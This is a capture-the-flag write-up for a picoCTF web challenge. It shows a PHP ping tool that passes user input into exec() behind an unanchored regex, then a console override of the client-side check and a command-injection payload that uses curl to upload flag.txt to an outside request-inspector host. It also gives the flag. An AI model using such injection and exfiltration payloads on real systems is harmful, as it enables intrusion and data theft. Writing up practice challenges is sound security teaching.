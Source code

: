 # Fancy-alive-monitoring - Web

We are presented with a page where we can input an input IP address of a target host. We also get the following source code:
```html
<html>
<head>
	<title>Monitoring Tool</title>
	<script>
	function check(){
		ip = document.getElementById("ip").value;
		chk = ip.match(/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/);
		if (!chk) {
			alert("Wrong IP format.");
			return false;
		} else {
			document.getElementById("monitor").submit();
		}
	}
	</script>
</head>
<body>
	<h1>Monitoring Tool ver 0.1</h1>
	<form id="monitor" action="index.php" method="post" onsubmit="return false;">
	<p> Input IP address of the target host
	<input id="ip" name="ip" type="text">
	</p>
	<input type="button" value="Go!" onclick="check()">
	</form>
	<hr>

<?php
$ip = $_POST["ip"];
if ($ip) {
	// super fancy regex check!
	if (preg_match('/^(([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5]).){3}([1-9]?[0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])/',$ip)) {
		exec('ping -c 1 '.$ip, $cmd_result);
		foreach($cmd_result as $str){
			if (strpos($str, '100% packet loss') !== false){
				printf("<h3>Target is NOT alive.</h3>");
				break;
			} else if (strpos($str, ', 0% packet loss') !== false){
				printf("<h3>Target is alive.</h3>");
				break;
			}
		}
	} else {
		echo "Wrong IP Format.";
	}
}
?>
<hr>
<a href="index.txt">index.php source code</a>
</body>
</html>
```

So we have one regex on the client-side and one on the server-side. By trying to figure out the differences between the regexes, we notice that the regex on client-side has $ in the end. This means that it should end with the same IP as it started with. The regex on the server-side does not check this so this means that as long as we can bypass the client side, our input only needs to start with an IP to bypass the regex on the server-side. This opens up for command injection. But first we need to bypass client-side and we can always do that by changing the code in the Javascript console. In the console, I put this function
```javascript
function check() {
    document.getElementById("monitor").submit();
}
```

That will submit the form which is enough to bypass it. Then once we have submitted it to the javascript console, we can run: 
> 192.168.1.109 ; curl -F 'data=@./flag.txt' https://requestinspector.com/inspect/01crk4yxhq4nxg1z12fajan5cq

Then I get a connect back with the flag: picoCTF{n3v3r_trust_a_b0x_d7ad162d}